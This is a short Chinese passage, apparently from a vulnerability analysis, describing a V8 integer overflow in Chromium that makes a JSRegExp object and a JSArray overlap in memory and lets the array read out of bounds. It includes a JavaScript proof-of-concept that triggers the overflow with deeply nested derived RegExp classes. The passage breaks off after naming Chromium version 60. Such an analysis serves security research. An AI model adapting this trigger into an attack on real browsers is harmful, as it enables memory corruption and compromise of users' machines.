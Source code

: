作者利用该整数溢出申请了一个JSRegExp对象，其instance_size还是只有8字节，只够存放该对象的map，接着在申请一个JSArray对象，他们的内存会重叠，JSRegExp的data会被当作是JSArray的elements，JSRegExp对象的source会被当作是length，这会导致JSArray越界

测试代码：

```javascript
const derived_n = eval(`(function derived_n(i) {
			if (i == 0) {
				class Derived extends RegExp {
					constructor(e) {
						super(e);
						return;
						${"this.a=0;".repeat(0x7fffb-8)}
					}
				}

				return Derived;
			}

			class DerivedN extends derived_n(i-1) {
				constructor(e) {
					super(e);
					return;
					${"this.a=0;".repeat(0x80000-8)}
				}
			}

			return DerivedN;
})`);

const ctor = derived_n(0x3ff);
var array = null;
var pattern = new Object();
pattern.toString = function() {
	// This is the allocation of the overlapping JSArray object. While this
	// allocation is referenced, a garbage collection will crash!
	array = new Array(8);
	return 'c01db33f';
}
// This is the allocation of the overlapping JSRegExp object which will 
// corrupt the array; we never hold a reference to it (except the 'this'
// reference during construction)
new ctor(pattern);
console.log(array.length);
```

在60版本的chromium浏览器中：
